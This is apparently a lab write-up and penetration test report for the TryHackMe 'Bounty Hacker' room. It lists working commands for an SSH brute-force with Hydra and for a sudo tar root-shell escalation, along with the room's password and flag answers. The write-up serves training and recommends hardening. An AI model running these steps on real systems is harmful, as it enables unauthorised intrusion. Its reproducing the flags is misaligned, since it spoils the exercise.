 # TryHackMe – Bounty Hacker Penetration Test Report

**Room:** [Bounty Hacker](https://tryhackme.com/room/cowboyhacker)  
**Tester:** Nakulan  
**Target-IP:** 
**Date:** 12-08-2025

---

## 1. Executive Summary
A penetration test was conducted against the **Bounty Hacker** target. Enumeration revealed FTP, SSH, and HTTP services. An **anonymous FTP** share exposed files (`task.txt`, `locks.txt`) that enabled **SSH credential brute-forcing**. After gaining a shell as user `lin`, **sudo misconfiguration** on `/bin/tar` was leveraged (GTFOBins) to obtain a root shell and exfiltrate flags.

**Key Findings**
- Anonymous FTP allowed retrieval of sensitive files.
- SSH password discovered via brute force using leaked wordlist.
- Sudo allowed running `/bin/tar` as root, enabling privilege escalation.

---

## 2. Scope
- Services exposed on the target host (FTP, SSH, HTTP).
- Userland to root compromise.
- No DoS, no impact to other hosts.

---

## 3. Methodology
1. **Reconnaissance** – Service & version detection.  
2. **Enumeration** – FTP anonymous access; HTTP quick checks.  
3. **Exploitation** – SSH brute force using wordlist from FTP.  
4. **Privilege Escalation** – Abusing sudo permissions (`/bin/tar`).  
5. **Post-Exploitation** – Flag retrieval & documentation.

---

## 4. Findings

### 4.1 Reconnaissance (Nmap)
```bash
nmap -sV -sC -p- TARGET_IP
```
**Observed**

-21/tcp FTP (allows anonymous)

-22/tcp SSH

-80/tcp HTTP

### 4.2 FTP Enumeration (Anonymous)
```bash
ftp TARGET_IP

# Username: anonymous
# Password: (press Enter)

ls
get task.txt
bye
```
**Artifacts**

-task.txt → To-do list; author: lin.


**Answer (who wrote the task list?)** lin

### 4.3 SSH Brute Force (Hydra)

``` bash

hydra -l lin -P locks.txt ssh://TARGET_IP
```
**Discovered Credentials**

-Username: lin

-Password: RedDr4gonSynd1cat3

**Answer (what service can you bruteforce with the text file?)** SSH
**Answer (what is the user’s password?)** RedDr4gonSynd1cat3

### 4.4 User Shell & User Flag

```bash
ssh lin@TARGET_IP
# password: RedDr4gonSynd1cat3

whoami
ls -la ~
cat ~/user.txt
User Flag
THM{CR1M3_SyNd1C4T3}
```
**Answer (user.txt)** THM{CR1M3_SyNd1C4T3}

## 4.5 Privilege Escalation (sudo tar → GTFOBins)
Check sudo permissions:

```bash

sudo -l
```
**output :**user lin can run /bin/tar as root without password.

**Spawn root shell via tar checkpoint action:**

```bash

sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
**Verify and read root flag:**

```bash
id
whoami
cat /root/root.txt
```

**Root Flag**

THM{80UN7Y_h4cK3r}
**Answer (root.txt)** THM{80UN7Y_h4cK3r}

### 5. Proof of Exploitation
Initial access: SSH as lin with password RedDr4gonSynd1cat3.

User flag: THM{CR1M3_SyNd1C4T3}

Root shell via sudo tar GTFOBins technique.

Root flag: THM{80UN7Y_h4cK3r}

### 6. Recommendations
Disable anonymous FTP and restrict external access to FTP.

Remove sensitive files (task.txt, locks.txt) from world-readable locations.

Enforce strong unique passwords; implement account lockout for SSH.

Restrict sudo permissions; remove NOPASSWD or unnecessary entries for /bin/tar.

Monitor and alert on brute-force attempts and anomalous sudo usage.

### 7. Quick Answers (as per room tasks)
Who wrote the task list? lin

What service can you bruteforce with the text file found? SSH

What is the user’s password? RedDr4gonSynd1cat3

user.txt THM{CR1M3_SyNd1C4T3}

root.txt THM{80UN7Y_h4cK3r}

### 8. Lessons Learned
Leaked wordlists and notes often lead to credential compromise.

Minimal sudo misconfigurations (e.g., allowing /bin/tar) can yield full root.

System hardening and least-privilege principles are critical to prevent escalation.


